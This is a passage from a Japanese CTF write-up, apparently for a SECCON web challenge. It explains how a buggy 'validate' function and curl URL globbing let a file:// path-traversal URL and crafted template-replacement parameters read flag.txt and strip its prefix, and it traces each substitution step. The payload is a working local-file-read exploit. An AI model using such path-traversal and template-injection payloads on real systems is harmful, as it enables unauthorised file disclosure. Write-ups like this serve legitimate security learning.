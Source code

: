 この処理を悪用して、フラグから`SECCON`の文字列を消してフラグの中身部分を返すようにすることはできないでしょうか。

まず重要なポイントとして`validate`関数にはバグがあり、実は`validate("{")`が`True`を返します。
このバグとcurlのURL globbingの挙動を利用してうまくbypassします。

例えば、

- URL: `file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}`
- params:
    ```json
    {
        "{name}": "{",
        "{": "}{",
        "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": ""
    }
    ```

でbypassが可能です。

テンプレートエンジン内での置換の過程は以下のとおりです。

最初:
```
... snip ...
<body>
  <h1>Hello, {name}!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}
```

`"{name}"` → `"{"`:
```
... snip ...
<body>
  <h1>Hello, {!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}
```

`"{"` → `"}{"`:
```
... snip ...
<body>
  <h1>Hello, }{!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON}{real_flag}
```

`"{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}"` → `""`:
```
... snip ...
<body>
  <h1>Hello, }{real_flag}
```
